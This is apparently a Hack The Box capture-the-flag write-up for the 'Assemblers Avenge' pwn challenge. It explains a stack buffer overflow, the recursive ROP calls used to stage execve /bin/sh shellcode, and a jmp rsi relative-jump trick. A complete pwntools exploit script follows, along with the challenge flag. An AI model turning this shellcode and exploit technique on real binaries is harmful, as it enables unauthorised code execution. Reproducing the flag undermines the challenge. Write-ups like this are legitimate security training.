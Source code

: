 # HTB Distopia - PWN | Assemblers Avenge

This challenge involved adding shellcode to the stack through recursive ROP calls and executing that shellcode through a relative JMP instruction.

### Initial Analysis

Looking at checksec:
```
$ checksec assemblers_avenge
	RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Taking a look through the binary, there is an obvious buffer overflow in the `_read` function. The buffer is located at `[RBP + -0x8]` which makes the buffer 8 bytes long, however `0x18` bytes are being read into it.

```
                _read                                           
0040106d 55              PUSH       RBP
0040106e 48 89 e5        MOV        RBP,RSP
00401071 48 83 ec 10     SUB        RSP,0x10
00401075 48 c7 c7        MOV        __fd,0x0
         00 00 00 00
0040107c 48 8d 75 f8     LEA        __buf=>local_10,[RBP + -0x8]
00401080 48 c7 c2        MOV        __nbytes,0x18
         18 00 00 00
00401087 48 c7 c0        MOV        RAX,0x0
         00 00 00 00
0040108e 0f 05           SYSCALL
00401090 c9              LEAVE
00401091 c3              RET
```

The assembly above is equivalent to

``` c
void read() {
    char buffer[8];
    read(0, buffer, 0x18);
}
```

Now that the vulnerability has been discovered, the next step is to find a way to exploit it. There are two concerns when exploiting this:
- the amount of data that can be written is 16 bytes (24 - 8)
- need to know where the stack is

### Exploitation

Tackling the first issue is pretty simple and is through the use of recursively calling `_read`. Take this example of shellcode which is 24 bytes, since there is a limit of 16 bytes that can be written on the stack, there needs to be a way to get the rest of the shellcode on the stack. By placing the first 8 bytes of the shellcode, then setting the RIP back to `_read` it lets us exploit the same buffer overflow vulnerability again, while lowering where the stack pointer is. Essentially letting us write to the stack.

``` python
f_read = p64(0x40106d)

shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
```

After running through the first `_read`
[gdb]

After running through the second `_read`
[]

Doing this multiple times, the shellcode should be loaded on the stack

[show gdb with all of the shellcode on the stack]

The next step is finding a method of jumping to the top of the shellcode. This can be done through the gadget `0x40106b: jmp rsi;`. Since RSI stores the value of the buffer when `read()` is called, then once we overflow we can jump to where RSI is located. The issue here is that RSI does not contain the location of the shellcode, but of the current frame's buffer. Getting around this is pretty easy by using a relative jump.

[excelidraw image of the double jump]

Put these two pieces together to execute shellcode and get the flag!
`HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_066023bd8dc6109e6e4547497951c2ce}`

### Solve

``` python
""" HTB | Armed Terminal
This challenge is slightly tricky in that you need to find a way to jump to shellcode without a stack leak
in order to do this you need to:
  - place shellcode on the stack using numerous ROP calls to the _read function
  - use the gadget { jmp rsi } to jump to the top of the shellcode
"""
from pwn import *

context.binary = './assemblers_avenge'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

HOST = '94.237.49.212'
PORT = 39904

def get_process():
  return process() # use this if you want to test locally
  #return remote(HOST, PORT)

def main():
  proc = get_process()

  f_read = p64(0x40106d)
  g_jmp_rsi = p64(0x0040106b)

  # Payloads to place shellcode on the stack
  shell1 = b'\x50\x48\x31\xd2\x48\x31\xf6\x48'.ljust(0x10, b'A') + f_read
  shell2 = b'\xbb\x2f\x62\x69\x6e\x2f\x73\x68'.ljust(0x10, b'A') + f_read
  shell3 = b'\x00\x53\x54\x5f\xb0\x3b\x0f\x05'.ljust(0x10, b'A') + f_read
  nop_writes = b'\x90'*0x10 + f_read

  # Place nop sled above the shellcode
  for i in range(4):
    proc.send(nop_writes)

  # Place shellcode on the stack
  proc.send(shell1)
  proc.send(shell2)
  proc.send(shell3)

  # Perform a ROP to jmp RSI, which contains a relative jump instruction to go to our shellcode
  proc.send(b'\xe9\xe0\xff\xff\xff'.ljust(0x10, b'A') + g_jmp_rsi)
  proc.interactive()

if __name__ == '__main__':
  main()
```